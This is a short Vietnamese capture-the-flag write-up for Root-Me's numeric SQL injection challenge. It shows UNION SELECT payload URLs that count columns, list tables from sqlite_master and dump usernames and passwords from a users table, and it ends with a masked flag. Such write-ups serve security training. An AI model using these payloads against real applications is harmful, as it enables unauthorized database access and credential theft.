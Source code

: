 # WRITE UP

**Challenge:** [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

<img src="./media/image1.png" style="width:6.5in;height:1.55208in" alt="Shape Description automatically generated with low confidence" />

Thử bypass qua login thì không thể thực hiện được.

<img src="./media/image2.png" style="width:6.5in;height:1.70278in" alt="Shape Description automatically generated with medium confidence" />

Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến **action=news&news\_id=\[x\].** Thử xóa id của news thì phát hiện database bị lỗi:

<img src="./media/image3.png" style="width:6.5in;height:2.35903in" alt="Graphical user interface, text, application Description automatically generated" />

Database của server là SQLite3. Tương tự bài SQL Injection – String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:

<img src="./media/image4.png" style="width:6.5in;height:1.77778in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,1 from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,1%20from%20sqlite_master)

Ta dò được có 2 bảng users và news:

<img src="./media/image5.png" style="width:6.5in;height:1.88889in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,name from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,name%20from%20sqlite_master)

Tương tự bài String, ta show ra được username và password của users:

<img src="./media/image6.png" style="width:6.5in;height:2.3in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,username,password from users](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,username,password%20from%20users)

Login vào thành công:

<img src="./media/image7.png" style="width:6.5in;height:1.95764in" alt="Graphical user interface, text, application Description automatically generated" />

- Flag: "****************************"
